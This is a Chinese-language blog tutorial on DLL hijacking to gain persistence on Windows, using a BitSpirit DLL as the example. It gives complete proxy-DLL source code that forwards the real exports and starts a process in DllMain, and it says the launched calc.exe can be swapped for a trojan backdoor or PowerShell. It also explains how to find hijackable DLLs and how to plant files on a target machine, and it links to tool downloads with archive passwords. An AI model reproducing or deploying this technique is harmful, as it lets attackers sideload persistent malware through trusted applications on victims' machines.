干货 | 如何快速完成DLL劫持，实现权限维持，重启上线
需要用到的工具以及应用
白文件-也就是被劫持的应用程序
AheadLib
VS2019
AheadLib


白文件-需要被劫持的应用
这里以比特精灵为例

双击运行AheadLib.exe，如果选择了dll，但是AheadLib.exe报错就需要运行AheadLib_x64.exe来生成，最后生成修改后的dll也需要生成x64位的

点生成就会生成一个.cpp文件

BSOPLib9.cpp的代码内容如下
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////// 头文件#include <Windows.h>////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////// 导出函数#pragma comment(linker, "/EXPORT:BO_GetMemory=BSOPLib9Org.BO_GetMemory,@1")#pragma comment(linker, "/EXPORT:BO_FreeMemory=BSOPLib9Org.BO_FreeMemory,@2")#pragma comment(linker, "/EXPORT:BO_Adler32=BSOPLib9Org.BO_Adler32,@3")#pragma comment(linker, "/EXPORT:BO_CRC32=BSOPLib9Org.BO_CRC32,@4")#pragma comment(linker, "/EXPORT:BO_SHA1Reset=BSOPLib9Org.BO_SHA1Reset,@5")#pragma comment(linker, "/EXPORT:BO_SHA1Input=BSOPLib9Org.BO_SHA1Input,@6")#pragma comment(linker, "/EXPORT:BO_SHA1Result=BSOPLib9Org.BO_SHA1Result,@7")#pragma comment(linker, "/EXPORT:BO_SHA1Simple=BSOPLib9Org.BO_SHA1Simple,@8")#pragma comment(linker, "/EXPORT:BO_MD5=BSOPLib9Org.BO_MD5,@9")#pragma comment(linker, "/EXPORT:BO_RC4PrepareKey=BSOPLib9Org.BO_RC4PrepareKey,@10")#pragma comment(linker, "/EXPORT:BO_RC4=BSOPLib9Org.BO_RC4,@11")////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////// 入口函数BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved){if (dwReason == DLL_PROCESS_ATTACH){DisableThreadLibraryCalls(hModule);}else if (dwReason == DLL_PROCESS_DETACH){}return TRUE;}
接下来打开宇宙第一IDE
VS2019
创建一个动态链接库项目

然后设置路径以及名称

复制BSOPLib9.cpp到dllmain.cpp

选择发行版本和位数-（x86或者x64,这就要看你前面用的是AheadLib.exe还是AheadLib_x64.exe来生成的）
PS:如果是 64 位的 DLL 需要在项目中添加之前生成的 .obj 文件

dllmain.cpp如下
// dllmain.cpp : 定义 DLL 应用程序的入口点。#include "pch.h"#include <Windows.h>////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////// 导出函数#pragma comment(linker, "/EXPORT:BO_GetMemory=BSOPLib9Org.BO_GetMemory,@1")#pragma comment(linker, "/EXPORT:BO_FreeMemory=BSOPLib9Org.BO_FreeMemory,@2")#pragma comment(linker, "/EXPORT:BO_Adler32=BSOPLib9Org.BO_Adler32,@3")#pragma comment(linker, "/EXPORT:BO_CRC32=BSOPLib9Org.BO_CRC32,@4")#pragma comment(linker, "/EXPORT:BO_SHA1Reset=BSOPLib9Org.BO_SHA1Reset,@5")#pragma comment(linker, "/EXPORT:BO_SHA1Input=BSOPLib9Org.BO_SHA1Input,@6")#pragma comment(linker, "/EXPORT:BO_SHA1Result=BSOPLib9Org.BO_SHA1Result,@7")#pragma comment(linker, "/EXPORT:BO_SHA1Simple=BSOPLib9Org.BO_SHA1Simple,@8")#pragma comment(linker, "/EXPORT:BO_MD5=BSOPLib9Org.BO_MD5,@9")#pragma comment(linker, "/EXPORT:BO_RC4PrepareKey=BSOPLib9Org.BO_RC4PrepareKey,@10")#pragma comment(linker, "/EXPORT:BO_RC4=BSOPLib9Org.BO_RC4,@11")////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////// 入口函数BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved){STARTUPINFO si = { sizeof(si) };PROCESS_INFORMATION pi;CreateProcess(TEXT("C:\\Windows\\System32\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);//调用计算器应用程序，也可以自定义你需要的应用，注意路径需要\\来表示if (dwReason == DLL_PROCESS_ATTACH){DisableThreadLibraryCalls(hModule);}else if (dwReason == DLL_PROCESS_DETACH){}return TRUE;}
注意：我们在入口函数中相较于BSOPLib9.cpp，多加了3行代码，用来启动进程
calc.exe可以替换你需要调用的木马后门以及powershell等等，自行发挥即可，继而完成权限维持
STARTUPINFO si = { sizeof(si) };PROCESS_INFORMATION pi;CreateProcess(TEXT("C:\\Windows\\System32\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);
然后点击-生成-生成dll即可

复制dll到被劫持的应用程序目录下

然后重新命名dll.dll为BSOPLib9.dll,原来的BSOPLib9.dll需要重新命名为BSOPLib9Org.dll

然后双击运行就会调用我们在代码里面写好的调用calc.exe计算器

成功完成DLL劫持工作，你学会了吗？
如何查找可能存在劫持的DLL
1、一般来说，我们可以使用ProcessExplorer、ProcessMonitor，再结合者注册表KnownDLLs即可分析，可能存在DLL劫持的漏洞。
ProcessExplorer：

ProcessMonitor：

2、当然，也存在懒的方法，比如使用 Rattler_x64.exe 这个工具。
Rattler_x64.exe "D:\Firefox\firefox\firefox.exe" 1 注：使用该工具，测试软件路径不能有中文。来源：https://github.com/sensepost/rattler
注：使用该工具，测试软件路径不能有中文。来源：https://github.com/sensepost/rattler
Tips：
1.如果是目标机器运行者需要劫持的应用程序，需要先kill进程，然后上传需要替换的劫持dll以及源dll，才能完成替换
2.最后给大家送几个白文件的


AheadLib下载地址：
链接：
https://pan.baidu.com/s/1scctQb4JlHXW2x6r5ouRqw
提取码：bv64
解压密码：hacker1961
rattler下载地址：
链接：
https://pan.baidu.com/s/1G0rmf5Qq6P3d9bVU4MwbqA
提取码：0khg
解压密码：hacker1961

推荐阅读：

点赞，转发，在看
参考：https://bbs.pediy.com/thread-224408.htm